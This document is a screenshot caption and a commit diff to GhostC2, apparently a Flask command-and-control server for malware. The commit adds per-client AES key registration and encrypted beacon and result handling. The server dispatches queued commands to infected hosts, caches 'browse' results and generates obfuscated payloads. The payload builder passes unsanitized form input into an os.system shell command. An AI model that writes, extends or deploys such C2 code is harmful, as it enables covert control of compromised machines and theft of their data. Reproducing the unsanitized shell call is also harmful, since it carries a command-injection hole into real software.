

Before and after one commit to wolfwashere/GhostC2, a Flask app: page /generate in a window 1280 px wide. Shown: the whole page, without its empty margins (0-761 px from the left). Before the commit the page ends 800 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; a user stored in the database is signed in.

Commit message:
Added per-client AES key support, fixed template string bugs, and enabled browse/exfil features

```diff
--- a/server/app.py
+++ b/server/app.py
@@ -14,7 +14,9 @@ from datetime import datetime, UTC
 import platform
 import shutil
 
+from collections import defaultdict
 
+aes_keys_by_client_id = {}
 
 sys.path.insert(0, os.path.abspath(os.path.join(os.path.dirname(__file__), '..', 'tools')))
 from ps_builder import generate_obfuscated_ps
@@ -233,20 +235,60 @@ def console_output():
     output = "\n\n".join([f"$ {cmd}\n{res}" for cmd, res in rows]) or "[+] No output yet..."
     return output
 
+@app.route("/register", methods=["POST"])
+def register_aes_key():
+    data = request.get_json()
+    client_id = data.get("client_id")
+    aes_key_b64 = data.get("aes_key")
+
+    if not client_id or not aes_key_b64:
+        return "Missing client_id or aes_key", 400
+
+    try:
+        aes_keys_by_client_id[client_id] = base64.b64decode(aes_key_b64)
+        print(f"[+] Registered AES key for client: {client_id}")
+        return "OK", 200
+    except Exception as e:
+        print(f"[!] Failed to register AES key: {e}")
+        return "Error", 500
+
+
 @app.route('/beacon', methods=['POST'])
 def beacon():
     encrypted = request.data.decode()
-    data = json.loads(aes_decrypt(encrypted))
+
+    from utils.crypto import aes_decrypt  # ensure you import the right one
+    data = None
+    client_id_match = None
+
+    for client_id, aes_key in aes_keys_by_client_id.items():
+        try:
+            decrypted = aes_decrypt(encrypted, aes_key)
+            parsed = json.loads(decrypted)
+
+            # Check if the decrypted data contains the correct client_id
+            if parsed.get("client_id") == client_id:
+                data = parsed
+                client_id_match = client_id
+                break
+        except Exception:
+            continue
+
+    if not data:
+        print("[!] Failed to decrypt beacon with any known AES key.")
+        return "Decryption failed", 403
+
     ip = request.remote_addr
     hostname = data.get('hostname', 'unknown')
     payload = data.get('payload', 'none')
     timestamp = datetime.now(UTC).isoformat()
 
-    print(f"[+] Beacon received from {hostname} ({ip}) - Payload: {payload}")
+    print(f"[+] Beacon received from {client_id_match} ({hostname}) - {ip} - Payload: {payload}")
 
     conn = sqlite3.connect(DB_PATH)
     c = conn.cursor()
-    c.execute("INSERT INTO beacons (ip, hostname, timestamp, payload) VALUES (?, ?, ?, ?)", (ip, hostname, timestamp, payload))
+    c.execute("INSERT INTO beacons (ip, hostname, timestamp, payload) VALUES (?, ?, ?, ?)",
+            (ip, hostname, timestamp, payload))
     c.execute("SELECT id, command FROM tasks WHERE hostname = ? AND status = 'pending'", (hostname,))
     tasks = c.fetchall()
     c.execute("UPDATE tasks SET status = 'dispatched' WHERE hostname = ? AND status = 'pending'", (hostname,))
@@ -256,15 +298,28 @@ def beacon():
     commands = [cmd for _, cmd in tasks]
     return jsonify({'tasks': commands}), 200
 
+
 @app.route('/result', methods=['POST'])
 def result():
     encrypted = request.data.decode()
-    data = json.loads(aes_decrypt(encrypted))
+
+    # Use registered AES keys to try decrypting
+    data = None
+    for client_id, key in aes_keys_by_client_id.items():
+        try:
+            data = json.loads(aes_decrypt(encrypted, key))
+            break
+        except Exception:
+            continue
+
+    if data is None:
+        print("[!] Failed to decrypt result with any known AES key.")
+        return jsonify({"error": "Unable to decrypt result"}), 400
+
     hostname = data.get("hostname")
     command = data.get("command")
     result = data.get("result")
-    #small change
-    # If result is a dict (e.g., from scan task), stringify it for storage/logging
+
     if isinstance(result, dict):
         result = json.dumps(result, indent=2)
 
@@ -292,7 +347,6 @@ def result():
             if command.startswith("browse "):
                 browse_cmd = True
             else:
-            # Try to parse JSON
                 try:
                     cmd_obj = json.loads(command)
                     if isinstance(cmd_obj, dict) and cmd_obj.get("action") == "browse":
@@ -300,17 +354,15 @@ def result():
                 except Exception:
                     pass
         if browse_cmd:
-        # result is JSON string (from agent)
             try:
                 browse_json = json.loads(result)
-                browse_results[hostname] = browse_json  # Cache for quick access
+                browse_results[hostname] = browse_json
                 print(f"[DEBUG] Cached browse result for {hostname}: {browse_json}")
             except Exception as ex:
                 print(f"[!] Failed to parse browse result: {ex}")
     except Exception as ex:
         print(f"[!] Error in browse result handler: {ex}")
 
-    # Store result in database
     conn = sqlite3.connect(DB_PATH)
     c = conn.cursor()
     c.execute(
@@ -320,7 +372,6 @@ def result():
     conn.commit()
     conn.close()
 
-    # Emit result to live console view
     socketio.emit("console_result", {
         "hostname": hostname,
         "command": command,
@@ -345,12 +396,18 @@ def generate():
 
         os.makedirs(os.path.dirname(out_path), exist_ok=True)
 
-        # Start building the command
+        # AES key (optional input)
+        aes_key_b64 = request.form.get('aes_key')
+        if not aes_key_b64:
+            aes_key = os.urandom(32)
+            aes_key_b64 = base64.b64encode(aes_key).decode()
+        else:
+            aes_key_b64 = aes_key_b64.strip()
+
+        # Build generator command
         GENERATOR_PATH = os.path.abspath(os.path.join(os.path.dirname(__file__), "../tools/generate_payload.py"))
-        cmd = f"python3 {GENERATOR_PATH} --c2 {c2url} --result {resulturl} --output {out_path}"
+        cmd = f"python3 {GENERATOR_PATH} --c2 {c2url} --result {resulturl} --output {out_path} --aes {aes_key_b64}"
 
-
-        # Optional flags
         if ext == 'exe':
             cmd += " --exe"
         if 'obfuscate' in request.form:
@@ -363,7 +420,7 @@ def generate():
         print(f"[+] Running: {cmd}")
         os.system(cmd)
 
-        return redirect(url_for('download_payload', filename=full_filename))
+        return render_template("generate.html", output_path=full_filename, aes_key_used=aes_key_b64)
 
     return render_template("generate.html")
 
--- a/server/templates/generate.html
+++ b/server/templates/generate.html
@@ -187,6 +187,12 @@
       <label for="resulturl">Result URL</label>
       <input type="text" id="resulturl" name="resulturl" value="http://localhost:8080/result" required />
 
+      <label for="aes_key">AES Encryption Key (Base64, 32-byte):</label>
+      <input type="text" id="aes_key" name="aes_key" placeholder="Leave blank to auto-generate" />
+
+      <button type="button" onclick="generateAESKey()">🔐 Generate AES Key</button>
+
+
       <label for="filename">Payload Filename (without extension)</label>
       <input type="text" id="filename" name="filename" placeholder="Leave blank for auto" />
 
@@ -248,6 +254,13 @@
       .catch(() => {
         document.getElementById('server-ip').value = 'Unavailable';
       });
+
+    function generateAESKey() {
+      const array = new Uint8Array(32);
+      window.crypto.getRandomValues(array);
+      const key = btoa(String.fromCharCode(...array));
+      document.getElementById('aes_key').value = key;
+    }
   </script>
 </body>
 </html>
```
Also changed, not shown: tools/generate_payload.py (+54 -14 lines), utils/crypto.py (+12 -4 lines).
